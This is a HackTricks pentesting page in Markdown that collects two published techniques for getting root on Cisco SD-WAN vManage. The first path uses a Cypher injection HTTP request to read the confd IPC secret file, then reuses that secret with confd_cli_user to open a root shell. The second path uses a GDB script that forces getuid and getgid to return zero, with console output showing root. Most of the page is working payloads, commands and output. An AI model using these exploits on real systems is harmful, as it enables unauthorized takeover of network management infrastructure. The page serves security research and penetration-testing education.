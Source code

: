 # Cisco - vmanage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Path 1

(Example from [https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html](https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html))

After digging a little through some [documentation](http://66.218.245.39/doc/html/rn03re18.html) related to `confd` and the different binaries (accessible with an account on the Cisco website), we found that to authenticate the IPC socket, it uses a secret located in `/etc/confd/confd_ipc_secret`:

```
vmanage:~$ ls -al /etc/confd/confd_ipc_secret 

-rw-r----- 1 vmanage vmanage 42 Mar 12 15:47 /etc/confd/confd_ipc_secret
```

Remember our Neo4j instance? It is running under the `vmanage` user's privileges, thus allowing us to retrieve the file using the previous vulnerability:

```
GET /dataservice/group/devices?groupId=test\\\'<>\"test\\\\\")+RETURN+n+UNION+LOAD+CSV+FROM+\"file:///etc/confd/confd_ipc_secret\"+AS+n+RETURN+n+//+' HTTP/1.1

Host: vmanage-XXXXXX.viptela.net 



[...]

"data":[{"n":["3708798204-3215954596-439621029-1529380576"]}]}
```

The `confd_cli` program does not support command line arguments but calls `/usr/bin/confd_cli_user` with arguments. So, we could directly call `/usr/bin/confd_cli_user` with our own set of arguments. However it's not readable with our current privileges, so we have to retrieve it from the rootfs and copy it using scp, read the help, and use it to get the shell:

```
vManage:~$ echo -n "3708798204-3215954596-439621029-1529380576" > /tmp/ipc_secret

vManage:~$ export CONFD_IPC_ACCESS_FILE=/tmp/ipc_secret 

vManage:~$ /tmp/confd_cli_user -U 0 -G 0

Welcome to Viptela CLI

admin connected from 127.0.0.1 using console on vManage

vManage# vshell

vManage:~# id

uid=0(root) gid=0(root) groups=0(root)
```

## Path 2

(Example from [https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77](https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77))

The blog¹ by the synacktiv team described an elegant way to get a root shell, but the caveat is it requires getting a copy of the `/usr/bin/confd_cli_user` which is only readable by root. I found another way to escalate to root without such hassle.

When I disassembled `/usr/bin/confd_cli` binary, I observed the following:

```
vmanage:~$ objdump -d /usr/bin/confd_cli
… snipped …
40165c: 48 89 c3              mov    %rax,%rbx
40165f: bf 1c 31 40 00        mov    $0x40311c,%edi
401664: e8 17 f8 ff ff        callq  400e80 <getenv@plt>
401669: 49 89 c4              mov    %rax,%r12
40166c: 48 85 db              test   %rbx,%rbx
40166f: b8 dc 30 40 00        mov    $0x4030dc,%eax
401674: 48 0f 44 d8           cmove  %rax,%rbx
401678: 4d 85 e4              test   %r12,%r12
40167b: b8 e6 30 40 00        mov    $0x4030e6,%eax
401680: 4c 0f 44 e0           cmove  %rax,%r12
401684: e8 b7 f8 ff ff        callq  400f40 <getuid@plt>  <-- HERE
401689: 89 85 50 e8 ff ff     mov    %eax,-0x17b0(%rbp)
40168f: e8 6c f9 ff ff        callq  401000 <getgid@plt>  <-- HERE
401694: 89 85 44 e8 ff ff     mov    %eax,-0x17bc(%rbp)
40169a: 8b bd 68 e8 ff ff     mov    -0x1798(%rbp),%edi
4016a0: e8 7b f9 ff ff        callq  401020 <ttyname@plt>
4016a5: c6 85 cf f7 ff ff 00  movb   $0x0,-0x831(%rbp)
4016ac: 48 85 c0              test   %rax,%rax
4016af: 0f 84 ad 03 00 00     je     401a62 <socket@plt+0x952>
4016b5: ba ff 03 00 00        mov    $0x3ff,%edx
4016ba: 48 89 c6              mov    %rax,%rsi
4016bd: 48 8d bd d0 f3 ff ff  lea    -0xc30(%rbp),%rdi
4016c4:   e8 d7 f7 ff ff           callq  400ea0 <*ABS*+0x32e9880f0b@plt>
… snipped …
```

When I run “ps aux”, I observed the following (_note -g 100 -u 107_)

```
vmanage:~$ ps aux 
… snipped …
root     28644  0.0  0.0   8364   652 ?        Ss   18:06   0:00 /usr/lib/confd/lib/core/confd/priv/cmdptywrapper -I 127.0.0.1 -p 4565 -i 1015 -H /home/neteng -N neteng -m 2232 -t xterm-256color -U 1358 -w 190 -h 43 -c /home/neteng -g 100 -u 1007 bash
… snipped …
```

I hypothesized the “confd\_cli” program passes the user ID and group ID it collected from the logged in user to the “cmdptywrapper” application.

My first attempt was to run the “cmdptywrapper” directly and supplying it with `-g 0 -u 0`, but it failed. It appears a file descriptor (-i 1015) was created somewhere along the way and I cannot fake it.

As mentioned in synacktiv’s blog(last example), the `confd_cli` program does not support command line argument, but I can influence it with a debugger and fortunately GDB is included on the system.

I created a GDB script where I forced the API `getuid` and `getgid` to return 0. Since I already have “vmanage” privilege through the deserialization RCE, I have permission to read the `/etc/confd/confd_ipc_secret` directly.

root.gdb:

```
set environment USER=root
define root
   finish
   set $rax=0
   continue
end
break getuid
commands
   root
end
break getgid
commands
   root
end
run
```

Console Output:

```
vmanage:/tmp$ gdb -x root.gdb /usr/bin/confd_cli
GNU gdb (GDB) 8.0.1
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-poky-linux".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/bin/confd_cli...(no debugging symbols found)...done.
Breakpoint 1 at 0x400f40
Breakpoint 2 at 0x401000Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401689 in ?? ()Breakpoint 2, getgid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401694 in ?? ()Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401871 in ?? ()
Welcome to Viptela CLI
root connected from 127.0.0.1 using console on vmanage
vmanage# vshell
bash-4.4# whoami ; id
root
uid=0(root) gid=0(root) groups=0(root)
bash-4.4#
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
